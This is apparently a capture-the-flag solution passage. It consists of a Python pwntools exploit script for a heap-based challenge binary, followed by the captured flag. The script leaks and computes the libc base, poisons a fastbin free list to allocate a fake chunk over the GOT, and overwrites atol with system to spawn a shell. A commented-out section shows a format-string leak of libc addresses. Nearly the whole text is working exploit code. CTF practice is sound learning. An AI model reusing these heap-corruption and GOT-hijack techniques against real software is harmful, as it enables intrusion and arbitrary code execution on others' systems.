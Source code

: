 ```python exp_bad.py
    libc.address = addr - 0x3be7b8 # remote
    log.success("libc_base: " +hex(libc.address))
    # gdb.attach(r, gdbscript=open('./ggg', 'r'))
    # arrange heap
    add_data(2, 0, "2"*0xb0*2, 'Yes')
    add_data(2, 0, "3"*0x58*2, 'Yes')
    add_data(2, 0, "4"*0x38*2, 'Yes')
    # overwrite fastbin->fd ( in size 0x40 )
    payload = convert(0x41)
    payload += convert(0x604042)
    payload += convert(0) * 6
    payload += convert(0x31)
    payload = payload.ljust(0x58*2, '0')
    add_data(2, 0x60-0x8, payload, 'Yes')
    # now fastbin (size=0x40) has fake chunk @ got
    # allocate the fake chunk
    # overwrite got
    payload = "6"*12 # libc_start_main
    payload += convert(0x400b26) # resolve fgets
    payload += convert(0x400b36) # resolve strlen
    payload += convert(libc.symbols['system']) # hijack atol
    #payload += convert(elf.plt['printf']) # use format string to leak libc info
    payload = payload.ljust(110, '0')
    add_data(3, 8, payload, 'No')
    
    # hijack atol, send "sh" to get shell
    r.sendlineafter("SEQ #:", "sh")
    log.success("get shell!: ")
    r.interactive()

    # for exploiting format string & leak libc info
    """
    payload = "%10$s.%p.%p.%p.%p.%p.%p.%p.%p.%p" + p64(elf.got['fgets'])
    r.sendlineafter("SEQ #:", payload)
    r.recv(1)
    print "fgets:", hex(u64(r.recv(6).ljust(8, '\x00')))
    payload = "%10$s.%p.%p.%p.%p.%p.%p.%p.%p.%p" + p64(elf.got['puts'])
    r.sendlineafter("Offset:", payload)
    r.recv(1)
    print "puts:", hex(u64(r.recv(6).ljust(8, '\x00')))
    """
```

flag: `All ints are not the same... A239... Some can be bad ints!`
